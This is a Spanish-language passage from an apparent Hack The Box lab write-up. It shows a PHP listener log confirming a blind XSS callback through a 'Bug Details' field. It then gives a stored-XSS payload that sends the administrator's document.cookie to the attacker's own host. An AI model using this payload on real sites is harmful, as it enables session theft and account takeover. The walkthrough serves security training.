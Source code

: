 Envíalo, espera unos momentos y observa el servidor de **PHP**:
```bash
php -S 0.0.0.0:8888
[Fri Oct  3 23:16:11 2025] PHP 8.4.11 Development Server (http://0.0.0.0:8888) started
[Fri Oct  3 23:28:09 2025] 10.10.11.88:37030 Accepted
[Fri Oct  3 23:28:09 2025] 10.10.11.88:37030 [200]: GET /Details
[Fri Oct  3 23:28:09 2025] 10.10.11.88:37030 Closing
```
Excelente, obtuvimos una respuesta en el campo de **Bug Details**, siendo este campo el vulnerable a **XSS**.

Curiosamente, si dejamos el servidor de **PHP** activo, seguiremos obteniendo respuestas, lo que quiere decir que el payload se almacenó.

Entonces, podemos aplicar un **XSS Store** para robar la cookie de sesión del administrador.

Usemos el siguiente payload para obtener la **Cookie** del administrador:
```bash
<img src=x onerror="document.location='http://Tu_IP:8888/Cookie/'+document.cookie">
```

Ponlo en el campo de **Bug Details** y envíalo:

<p align="center">
<img src="/assets/images/htb-writeup-imagery/Captura16.png">
</p>
